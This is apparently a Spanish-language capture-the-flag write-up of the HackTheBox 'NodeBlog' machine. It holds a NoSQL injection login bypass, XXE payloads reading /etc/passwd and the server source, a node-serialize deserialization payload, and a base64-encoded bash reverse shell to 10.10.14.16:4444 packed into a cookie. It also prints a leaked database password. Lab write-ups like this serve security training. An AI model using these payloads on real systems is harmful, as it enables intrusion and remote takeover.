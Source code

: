 ```yaml
---
title: NodeBlog
published: 2025-02-28
image: "./logo.png"
tags: [Easy, NoSQLi, XXE, Deserialization Attack, MongoDB Enum, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

> NoSQL Injection (Authentication Bypass)
> XXE File Read
> NodeJS Deserialization Attack (IIFE Abusing)
> Mongo Database Enumeration

### Preparación

> eJPT  
> eWPT

***

## Reconocimiento

Para empezar vamos a hacer un escaneo para ver que puertos tiene abiertos esta máquina y que servicios y versiones usan.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.139
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnmWg5rPPFIoIbPsAiHkC%2Fimg1.png?alt=media&#x26;token=da1eb531-cf6a-4704-90f9-797e2d85f41a" alt=""><figcaption></figcaption></figure>

Vemos que tiene 2 puertos abiertos, el 22 **SSH** y el 5000 que está corriendo un servidor web con **Express** como framework. Primero accederemos a este segundo puerto para ver el contenido de la página web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuneOlLLaOdBTlRVXVOlV%2Fimg2.png?alt=media&#x26;token=329b8946-b3f8-4043-8edd-c8d4fe713938" alt=""><figcaption></figcaption></figure>

Parece un blog simple, pero podemos ver un botón _Login_, vamos a ver que hay.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FeFj7nau7FgmOMrR4tJ7O%2Fimg3.png?alt=media&#x26;token=cc52086a-ff52-4724-94ce-73173dea8c4c" alt=""><figcaption></figcaption></figure>

## Explotación



Si interceptamos la solicitud con **Burpsuite** y cambiamos el parámetro de _Content-Type_ de **application/x-www-form-urlencoded** a **application/json**, nos dará un error que nos permitirá ver dónde se ubica este servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7C0yV6KZnR9FZEWsjhNX%2Fimg4.png?alt=media&#x26;token=0aff2105-35b4-4562-bffb-7a09fa3d8afc" alt=""><figcaption></figcaption></figure>

Vemos que está en /opt/blog, esto puede ser útil en un futuro. Además en el panel de login si probamos un usuario aleatorio, nos da el error _Invalid username_, pero con el usuario **admin** no, por lo que ese si que sería válido. Podríamos probar una **inyección NoSQL** con estos parámetros:

```json
{  
"user": "admin",  
"password": {"$ne": null}  
}

// Además de cambiar a application/json
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0u1LQ4K79eG8YiKetHSD%2Fimg5.png?alt=media&#x26;token=ae8b61e5-ef16-4aa0-b4c2-8975c8909af9" alt=""><figcaption></figcaption></figure>

Podemos ver que hemos conseguido acceder. Si intentamos subir un archivo cualquiera devuelve lo siguiente: `Invalid XML Example: Example DescriptionExample Markdown` Por lo cual tendremos que hacer una **XXE Injection** (_XML External Entity_). Vamos a intentar un **LFI** creando un XML malicioso que injecte un comando.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBrkjDHZ0Lydtkh5ujIgv%2Fimg6.png?alt=media&#x26;token=40ede2bd-4926-45ad-8b3c-b9793d4485f9" alt=""><figcaption></figcaption></figure>

Podemos ver que funciona correctamente, entonces como sabemos que el blog está en /opt/blog lo normal usando Express es que el archivo principal sea _server.js_ por lo que lo comprobaremos.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post>
<title>Server Code</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


Nos devuelve lo siguiente:

{% code lineNumbers="true" %}
```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```


Podemos ver que usa el paquete de **node-serialize** el cual si buscamos un poco econtraremos que es [vulnerable](https://medium.com/@firstprof.com/hackthebox-writeup-active-676aa4bd605f). Vemos que se usa para deserializar la cookie. Entonces si le pasamos un código serializado de JavaScript malicioso, podremos obtener lo que se llama un **IIFE** (_Immediately Invoked Function Expression_) en consecuencia ejecución arbitraria de código. Para comprobar si esto es viable, crearemos un código simple para hacernos un ping a nosotros mismos. Para ello usaremos este código:


```json
serialize{"rserializece":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.16', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%36%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Entonces esa sería nuestra Auth Cookie maliciosa, simplemente la ponemos en el navegador:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnY8LvAONyGF5TKCgog3F%2Fimg7.png?alt=media&#x26;token=e624de38-1e6a-409e-a49a-88241263c64c" alt=""><figcaption></figcaption></figure>

> _Nota: A veces tienes que volver entrar a la web y poner la cookie porque va raro, pero deberías recibir el ping._

Al ponernos a la escucha con **tcpdump** por la interfaz tun0 recibimos el pin.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FaQG1JauarzjuHznxrjBB%2Fimg8.png?alt=media&#x26;token=60295bdc-285e-42d9-baef-c3935d822bfb" alt=""><figcaption></figcaption></figure>

Por lo que ya podríamos crear una revshell.

```sh
echo -n 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' | base64
```

Quedaría algo así:

```
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx
```

Ahora lo metemos a la cookie añadiendo el decodeado y el bash para que lo ejecute:

```bash
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash
```


```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%59%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Si lo pasamos a la cookie y nos ponemos a la escucha en el puerto **4444** obtendremos la shell.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FerZZ2ZKM7KyZ8BRc61tu%2Fimg9.png?alt=media&#x26;token=bd92f8ab-eab1-4a33-9274-2dc8ab59d966" alt=""><figcaption></figcaption></figure>

Deberemos de dar permisos para poder abrir /home/admin con:

```
chmod +x /home/admin
```

Y ya podremos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FNsD8okbtIlI68zvy9j1M%2Fimg10.png?alt=media&#x26;token=d5d22649-8ead-45a7-8fb2-7e1b7a7454da" alt=""><figcaption></figcaption></figure>

Recordando que tenía **MongoDB** gracias al /etc/passwd podemos intentar listar los puertos abiertos internos de la máquina con:

```
ss -tln
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFYR9f8UQnPCgeKbhlE3z%2Fimg11.png?alt=media&#x26;token=233b8975-c119-4cf7-8360-bd3ec8b31cf9" alt=""><figcaption></figcaption></figure>

Efectivamente, vemos que el puerto **27017** está abierto. Si usamos mongo para listar DB y todo lo que contiene...

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdVHVb7sW5uBOD7k3bMT5%2Fimg12.png?alt=media&#x26;token=6497d7e0-d8d3-4833-a97e-f8cab1cf699e" alt=""><figcaption></figcaption></figure>

Vemos que hay una contraseña de un usuario admin, por lo que la copiamos:&#x20;

```
IppsecSaysPleaseSubscribe
```

Si hacemos un **sudo -l** nos devuelve con la contraseña:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdjZOzrl0JGBPCfZcZw55%2Fimg13.png?alt=media&#x26;token=a90e33fb-559a-464f-bbdb-7e5227a2a296" alt=""><figcaption></figcaption></figure>

Y ya simplemente hacemos sudo su y obtenemos la root flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FcLHMMIWIGn1MBy1oSNMf%2Fimg14.png?alt=media&#x26;token=3ebfb71a-9ff6-4c2c-a10c-6e8fec69a608" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/430)

---